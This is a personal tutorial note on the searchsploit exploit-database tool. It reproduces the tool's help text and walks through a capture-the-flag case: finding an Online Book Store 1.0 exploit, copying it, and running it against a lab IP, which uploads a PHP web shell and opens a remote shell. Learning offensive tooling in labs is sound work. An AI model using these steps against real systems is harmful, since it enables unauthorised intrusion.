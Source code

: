# searchsploit

The searchsploit tool is a useful commandline database that allows me to look up a vulnerabilities in the [Exploit Database](https://www.exploit-db.com/searchsploit) based on the name and version of software. This information provides a list of known vulnerabilites and scripts that can be used to run against target machines. Once I install searchsploit on my machine I can look up vulnerabilites without using an internet connection.

## Usage

Running `searchsploit -h` provided the following output:

```bash
  Usage: searchsploit [options] term1 [term2] ... [termN]

==========
 Examples 
==========
  searchsploit afd windows local
  searchsploit -t oracle windows
  searchsploit -p 39446
  searchsploit linux kernel 3.2 --exclude="(PoC)|/dos/"
  searchsploit -s Apache Struts 2.0.0
  searchsploit linux reverse password
  searchsploit -j 55555 | jq
  searchsploit --cve 2021-44228

  For more examples, see the manual: https://www.exploit-db.com/searchsploit

=========
 Options 
=========
## Search Terms
   -c, --case     [term]      Perform a case-sensitive search (Default is inSEnsITiVe)
   -e, --exact    [term]      Perform an EXACT & order match on exploit title (Default is an AND match on each term) [Implies "-t"]
                                e.g. "WordPress 4.1" would not be detect "WordPress Core 4.1")
   -s, --strict               Perform a strict search, so input values must exist, disabling fuzzy search for version range
                                e.g. "1.1" would not be detected in "1.0 < 1.3")
   -t, --title    [term]      Search JUST the exploit title (Default is title AND the file's path)
       --exclude="term"       Remove values from results. By using "|" to separate, you can chain multiple values
                                e.g. --exclude="term1|term2|term3"
       --cve      [CVE]       Search for Common Vulnerabilities and Exposures (CVE) value

## Output
   -j, --json     [term]      Show result in JSON format
   -o, --overflow [term]      Exploit titles are allowed to overflow their columns
   -p, --path     [EDB-ID]    Show the full path to an exploit (and also copies the path to the clipboard if possible)
   -v, --verbose              Display more information in output
   -w, --www      [term]      Show URLs to Exploit-DB.com rather than the local path
       --id                   Display the EDB-ID value rather than local path
       --disable-colour       Disable colour highlighting in search results

## Non-Searching
   -m, --mirror   [EDB-ID]    Mirror (aka copies) an exploit to the current working directory
   -x, --examine  [EDB-ID]    Examine (aka opens) the exploit using $PAGER

## Non-Searching
   -h, --help                 Show this help screen
   -u, --update               Check for and install any exploitdb package updates (brew, deb & git)

## Automation
       --nmap     [file.xml]  Checks all results in Nmap's XML output with service version
                                e.g.: nmap [host] -sV -oX file.xml

=======
 Notes 
=======
 * You can use any number of search terms
 * By default, search terms are not case-sensitive, ordering is irrelevant, and will search between version ranges
   * Use '-c' if you wish to reduce results by case-sensitive searching
   * And/Or '-e' if you wish to filter results by using an exact match
   * And/Or '-s' if you wish to look for an exact version match
 * Use '-t' to exclude the file's path to filter the search results
   * Remove false positives (especially when searching using numbers - i.e. versions)
 * When using '--nmap', adding '-v' (verbose), it will search for even more combinations
 * When updating or displaying help, search terms will be ignored
```

## Examples

The following examples are ones that I have used in capture the flag exercises.

### Searching

I found a web application that was running the "Online Book Store v1.0" software. Using searchsploit I was able to find all kinds of vulnerabilities. Here is the command I ran to find what exploits were available:

`searchsploit Online Book Store`

The following was the output:

```bash
------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                  |  Path
------------------------------------------------------------------------------------------------ ---------------------------------
GotoCode Online Bookstore - Multiple Vulnerabilities                                            | asp/webapps/17921.txt
Online Book Store 1.0 - 'bookisbn' SQL Injection                                                | php/webapps/47922.txt
Online Book Store 1.0 - 'id' SQL Injection                                                      | php/webapps/48775.txt
Online Book Store 1.0 - Arbitrary File Upload                                                   | php/webapps/47928.txt
Online Book Store 1.0 - Unauthenticated Remote Code Execution                                   | php/webapps/47887.py
Online Event Booking and Reservation System 1.0 - 'reason' Stored Cross-Site Scripting (XSS)    | php/webapps/50450.txt
------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

The `Online Book Store 1.0 - Unauthenticated Remote Code Execution` line caught my eye. Looking in the Path column of the table, I see that `php/webapps/47887.py` is the file to run this exploit. I was to see more information about this exploit. I'll run the following command to get more information:

`searchsploit 47887 -p`

It output the following:

```bash
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
Online Book Store 1.0 - Unauthenticated Remote Code Execution                   | php/webapps/47887.py
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
root@ip-10-10-92-190:~/Instructions# searchsploit 47887 -p
  Exploit: Online Book Store 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47887
     Path: /opt/exploitdb/exploits/php/webapps/47887.py
    Codes: N/A
 Verified: True
File Type: ASCII text
```

The Path in the above output tells me where on my machine searchsploit is storing the exploit file. I can run the script in that directory or copy it over to my current directory. I usually copy it to my directory in case I need to make modifications or if I am including the script in a write up. I copy the script by running:

`searchsploit 47887 -m`

The above command is the same as running the following:

`cp /opt/exploitdb/exploits/php/webapps/47887.py .`

I run any python script with python3 because python has been end of life since January 1st, 2020. In the extremely rare event that a script needs python2, I will usually just update the script to work for python3. This script would not work with python2 since it uses the built in input command and that is handled slightly differently between python2 and python3.

Now I run the command with the following:

`python3 47887.py`

This generated an error saying that the script needs a url to be provided. So I included the root url to the application:

`python3 47887.py http://10.10.1.1`

This generated the output I was hoping for:

```bash
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.1.1/bootstrap/img/oUde8ShIJA.php
> Example command usage: http://10.10.1.1/bootstrap/img/oUde8ShIJA.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $
```

I now have remote shell access on the target machine!
